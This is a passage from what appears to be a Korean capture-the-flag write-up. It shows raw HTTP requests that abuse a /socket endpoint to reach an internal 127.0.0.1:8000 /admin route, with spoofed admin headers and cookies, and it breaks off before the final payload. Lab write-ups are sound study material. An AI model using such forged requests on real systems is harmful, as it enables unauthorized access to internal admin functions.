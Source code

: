 일단 어떻게 패킷이 날라가는지 보자.

```http
POST /socket HTTP/1.1
Host: host2.dreamhack.games:16778
Content-Length: 46
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://host2.dreamhack.games:16778
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://host2.dreamhack.games:16778/socket
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

host=123.123.123.123&port=80&data=testtesttest
```

아마도 저 host 부분와 port가 `s.connect((host, port))` 에 의해서 목적지 주소와 포트가 설정되고, `s.sendall(data.encode())` 에 의해서 data들이 패킷 바디에 들어갈 것 같다. 그럼 이제 하나 하나 페이로드 작성 시 필요한 것들을 해결해나가보자.

### Q1. host와 port는 무슨 값으로 할 것인가?

일단 문제에서 주어진 접속 정보를 넣으면 "[Errno -2] Name does not resolve" 가 발생한다. 또한 remote_addr과 관련있나 싶어 host에 '127.0.0.1'과 HTTP 포트 '80'을 넣었으나 "[Errno 111] Connection refused" 가 발생한다. 도대체 무엇을 넣어야 하는가 찾다가 코드 아래 `app.run(host='0.0.0.0', port=8000)` 부분을 보게 되었다. 이래서 코드를 꼼꼼히 읽어야 한다니까...

그리하여 host에는  '127.0.0.1', port에는 '8000'을 넣으니 "timed out" 이 발생했다. 테스트 적으로 위에 POST 방식의 패킷에서 `/socket` 부분을 `/admin`으로 보내니 

![image-20220622114455725](../img/image-20220622114455725.png)

음, 벌써 host, port에 어떤 값을 넣어야 할지와 첫번째 조건이였던 remote_addr도 뚫어낼 수 있었다.

### Q2. 패킷의 body정보는 어떻게 보낼 것인가?

```http
POST /admin HTTP/1.1
Host: host2.dreamhack.games:16778
Content-Length: 46
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://host2.dreamhack.games:16778
Content-Type: application/x-www-form-urlencoded
User-Agent: Admin Browser
Referer: http://host2.dreamhack.games:16778/socket
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
DreamhackUser: admin
Cookie: admin=true;

userid=admin
```
